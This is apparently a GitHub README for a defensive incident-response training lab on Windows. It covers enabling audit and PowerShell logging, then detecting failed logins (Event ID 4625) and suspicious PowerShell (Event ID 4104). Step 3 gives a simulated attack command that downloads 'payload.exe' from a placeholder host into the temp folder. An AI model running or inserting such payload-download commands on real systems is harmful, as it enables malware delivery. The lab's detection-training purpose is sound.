


# 🔐 Day #11 – Incident Response Lab (Windows)


## 🎯 Objective
Introduce the basics of incident response and simulate common incidents on Windows using built-in tools.

---

## 🧠 What is Incident Response?
Incident Response (IR) is a structured method to handle the aftermath of a cyberattack. It includes:
- Detecting the incident
- Containing the damage
- Investigating the root cause
- Restoring normal operations
- Documenting and reporting findings

---

## 🔄 NIST Incident Response Lifecycle
| Phase | Description |
|-------|-------------|
| 1. Preparation | Setup policies, logs, and tools |
| 2. Detection & Analysis | Identify potential incidents |
| 3. Containment, Eradication, Recovery | Isolate & clean systems |
| 4. Post-Incident | Review and update plans |

---

## 🧪 Lab Simulation: Unauthorized Access

### ✅ Preparation Steps:
1. Run `secpol.msc` ➜ Enable:
   - Audit Logon Events (Success & Failure)
   - Audit Process Creation
2. Enable PowerShell Logging:
   - Script Block Logging
   - Module Logging (via GPO or Registry)

---

### 🛠 Step 1: Simulate Failed Logins
- Lock screen (Win + L)
- Try 2–3 incorrect passwords

---

### 🔍 Step 2: Detect Event ID 4625
- Open **Event Viewer** ➜ `Windows Logs → Security`
- Filter by **Event ID: 4625**
- Note:
  - Account name
  - IP (if present)
  - Logon type

📸 Screenshot required: *Event ID 4625 result*

---

### 🧪 Step 3: Simulate Suspicious PowerShell
```powershell
Invoke-WebRequest -Uri "http://example.com/payload.exe" -OutFile "$env:TEMP\payload.exe"
```
---

### 🔍 Step 4: Detect PowerShell Event ID 4104

- Event Viewer ➜ Applications and Services Logs → Microsoft → Windows → PowerShell → Operational
- Filter: **Event ID 4104**
- Identify the PowerShell command

📸 **Screenshot Required:** `Event ID 4104 result`

---

### 🔐 Step 5: Response Actions

- Kill the process in Task Manager
- Delete `payload.exe` from `%TEMP%`
- Record the following in `event_logs.txt`:
  - Username
  - Timestamps
  - Command line arguments

---

### 📝 Submission Instructions

📂 Add the following to your GitHub repo:
- ✅ `images/failed_login.png`
- ✅ `images/powershell_download.png`
- 🧾 Log contents: `event_logs.txt`

---

### 📚 Learnings

- Incident Response requires fast detection, visibility, and quick containment
- Windows Event Viewer provides critical log data
- PowerShell activity logs (Event ID 4104) reveal potentially malicious behavior

---

### 📌 Tags

`#SOCAnalyst` `#IncidentResponse` `#WindowsSecurity` `#EventViewer` `#PowerShellLogging`

---

### 📷 Add images in README

Place your images in the `/images/` folder and embed them like this:

Failed Login - Event ID 4625

PowerShell Download - Event ID 4104

